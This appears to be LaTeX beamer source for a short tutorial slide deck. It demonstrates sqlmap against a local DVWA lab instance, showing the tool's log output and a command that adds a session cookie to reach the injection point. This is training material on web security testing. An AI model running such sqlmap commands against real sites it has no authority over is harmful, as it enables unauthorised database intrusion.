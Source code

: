 \documentclass[xcolor=pdftex,table,10pt]{beamer}
\begin{document}
\begin{frame}
	\begin{center}
	\LARGE{\href{http://www.dvwa.co.uk}{DVWA as an Example}}
	\end{center}
\end{frame}

\begin{frame}[fragile]
	\begin{center}
	Find Entry Point \\
	\small \begin{verbatim}
			$ python sqlmap.py -u 
			http://localhost/dvwa/vulnerabilities/sqli/?id=&Submit=Submit 
			\end{verbatim} \\
	\begin{verbatim}
	[13:27:54] [INFO] testing connection to the target url
	[13:27:54] [INFO] heuristics detected web page charset 'None'
	sqlmap got a 302 redirect to 'http://localhost:80/dvwa/login.php'. 
	Do you want to follow? [Y/n]
	\end{verbatim}
	
	\end{center}
\end{frame}

\begin{frame}[fragile]
	\begin{center}
		So, We Need a Cookie	
	\end{center}
	\small 
	\begin{verbatim}
	$ ./sqlmap.py 
	--cookie 
	"PHPSESSID=1gn63kn3opj97l6325h0f9sjn2; 
	 security=low" 
	-u "http://localhost/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit"
	\end{verbatim}	
\end{frame}


\end{document}
